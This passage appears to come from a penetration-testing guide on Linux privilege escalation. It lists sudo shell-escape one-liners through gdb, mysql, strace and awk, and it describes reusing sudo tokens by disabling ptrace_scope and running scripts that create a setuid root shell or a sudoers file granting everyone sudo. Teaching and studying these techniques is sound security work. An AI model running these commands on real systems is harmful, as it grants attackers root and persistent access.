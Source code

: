 gdb -nx -ex '!sh' -ex quit
sudo mysql -e '! /bin/sh'
strace -o /dev/null /bin/sh
sudo awk 'BEGIN {system("/bin/sh")}'

GTFOBinsGTFOArgs### FallOfSudo

If you can access `sudo -l` you can use the tool  to check if it finds how to exploit any sudo rule.

### Reusing Sudo Tokens

In cases where you have sudo access but not the password, you can escalate privileges by waiting for a sudo command execution and then hijacking the session token.

Requirements to escalate privileges:

You already have a shell as user "sampleuser"

"sampleuser" have used `sudo` to execute something in the last 15mins (by default that's the duration of the sudo token that allows us to use `sudo` without introducing any password)

`cat /proc/sys/kernel/yama/ptrace_scope` is 0

`gdb` is accessible (you can be able to upload it)

(You can temporarily enable `ptrace_scope` with `echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope` or permanently modifying `/etc/sysctl.d/10-ptrace.conf` and setting `kernel.yama.ptrace_scope = 0`)

If all these requirements are met, you can escalate privileges using: 

The first exploit (`exploit.sh`) will create the binary `activate_sudo_token` in /tmp. You can use it to activate the sudo token in your session (you won't get automatically a root shell, do `sudo su`):

```
bash exploit.sh
/tmp/activate_sudo_token
sudo su
```

The second exploit (`exploit_v2.sh`) will create a sh shell in /tmp owned by root with setuid

```
bash exploit_v2.sh
/tmp/sh -p
```

The third exploit (`exploit_v3.sh`) will create a sudoers file that makes sudo tokens eternal and allows all users to use sudo

```
bash exploit_v3.sh
sudo su
```

### /var/run/sudo/ts/<Username>
